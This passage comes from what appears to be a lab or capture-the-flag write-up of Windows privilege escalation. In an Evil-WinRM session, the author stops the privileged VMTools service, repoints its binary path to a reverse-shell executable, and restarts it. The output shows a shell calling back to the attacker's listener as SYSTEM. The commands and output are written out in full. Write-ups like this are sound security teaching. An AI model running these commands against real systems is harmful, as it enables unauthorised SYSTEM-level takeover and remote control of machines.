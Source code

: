 I'll choose `VMTools`, since it's a privileged service.

### Exploitation

Let's start by stopping `VMTools`.

```ps1
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe stop "VMTools"
```

```
SERVICE_NAME: VMTools
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 1  STOPPED
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```

Then, let's change the path of this service to our reverse shell binary.

```ps1
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe config "VMTools" binpath="C:\tmp\revshell.exe"
```

```
[SC] ChangeServiceConfig SUCCESS
```

Finally, let's start it.

```ps1
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe start "VMTools"
```

```
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.
```

We get an error message. But if we check our listener:

```
connect to [10.10.14.9] from (UNKNOWN) [10.10.11.108] 58836
<SNIP>
PS C:\Windows\system32>
```

It caught the reverse shell!

## Getting a lay of the land

If we run `whoami`, we see that we're `NT AUTHORITY\SYSTEM`!

### Flags
